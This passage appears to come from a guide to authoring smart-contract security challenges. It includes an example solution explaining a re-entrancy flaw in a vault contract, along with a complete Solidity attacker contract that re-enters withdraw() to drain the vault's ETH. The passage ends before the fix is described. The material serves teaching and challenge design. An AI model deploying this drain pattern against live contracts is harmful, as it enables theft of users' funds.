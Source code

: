 Your script should focus on verifying the end-state of the contract after exploitation, rather than the specific method used to exploit it.

### 4. Writing the Solution

Provide a detailed explanation of:
- What the vulnerability is
- Why it exists in the contract
- How to exploit it
- How to fix the vulnerability

Example solution:

```
# Re-entrancy Vulnerability Solution

This contract is vulnerable to a re-entrancy attack because it updates the user's balance *after* transferring ETH to the user.

## The Vulnerability

In the `withdraw()` function, notice that the contract:
1. Checks the user's balance
2. Sends ETH to the user using `.call{value: amount}("")`
3. Only *after* the transfer updates the user's balance with `balances[msg.sender] -= amount`

This creates a window of opportunity for an attacker to call back into the `withdraw()` function before their balance is updated.

## Exploitation Steps

1. Create an attacker contract with a fallback function that calls back into the vault's withdraw function:

```solidity
contract Attacker {
    TokenVault public vault;

    constructor(address _vaultAddress) {
        vault = TokenVault(_vaultAddress);
    }

    // Function to start the attack
    function attack() external payable {
        // First deposit some ETH
        vault.deposit{value: msg.value}();

        // Then trigger the withdraw to start the re-entrancy
        vault.withdraw(msg.value);
    }

    // Fallback function that gets called when receiving ETH
    receive() external payable {
        // If there's still balance in the vault, withdraw again
        if (address(vault).balance >= msg.value) {
            vault.withdraw(msg.value);
        }
    }

    // Function to retrieve the stolen funds
    function getStolen() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```
